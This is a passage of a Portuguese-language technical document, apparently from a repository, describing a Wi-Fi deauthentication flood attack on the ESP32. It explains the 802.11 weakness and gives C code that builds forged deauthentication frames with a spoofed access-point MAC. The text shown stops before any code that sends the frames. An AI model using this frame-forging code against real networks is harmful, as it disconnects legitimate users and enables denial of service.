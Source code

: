 # Deauthentication Flood Attack - Implementação Técnica

## Descrição do Ataque

O Deauthentication Flood é um ataque de negação de serviço (DoS) que explora a vulnerabilidade dos frames de deautenticação 802.11. O atacante envia frames de deautenticação forjados para forçar a desconexão de clientes legítimos do Access Point, causando interrupção do serviço.

## Funcionamento Técnico

### 1. Princípio do Ataque
O protocolo 802.11 permite que qualquer dispositivo envie frames de deautenticação sem autenticação prévia, criando uma vulnerabilidade fundamental.

```
Normal: Cliente ↔ AP (conectado)
Ataque: Atacante → Cliente/AP (frame deauth)
Resultado: Cliente desconectado do AP
```

### 2. Estrutura do Frame 802.11 Deauth
```c
typedef struct {
    uint8_t frame_control[2];    // Tipo de frame (0x00, 0xC0)
    uint8_t duration[2];         // Duração
    uint8_t addr1[6];            // MAC destino (cliente)
    uint8_t addr2[6];            // MAC origem (AP falsificado)
    uint8_t addr3[6];            // BSSID do AP
    uint8_t seq_ctrl[2];         // Controle de sequência
    uint8_t reason_code[2];      // Código de razão da desconexão
} __attribute__((packed)) deauth_frame_t;
```

### 3. Implementação no ESP32

#### 3.1 Configuração do Frame
```c
void create_deauth_frame(uint8_t *frame, uint8_t *target_mac, uint8_t *ap_mac) {
    deauth_frame_t *deauth = (deauth_frame_t*)frame;
    
    // Frame Control: Deauthentication
    deauth->frame_control[0] = 0xC0;
    deauth->frame_control[1] = 0x00;
    
    // Endereços MAC
    memcpy(deauth->addr1, target_mac, 6);    // Cliente alvo
    memcpy(deauth->addr2, ap_mac, 6);        // AP (falsificado)
    memcpy(deauth->addr3, ap_mac, 6);        // BSSID
    
    // Código de razão (classe 2 frame received from non-auth STA)
    deauth->reason_code[0] = 0x07;
    deauth->reason_code[1] = 0x00;
}
```
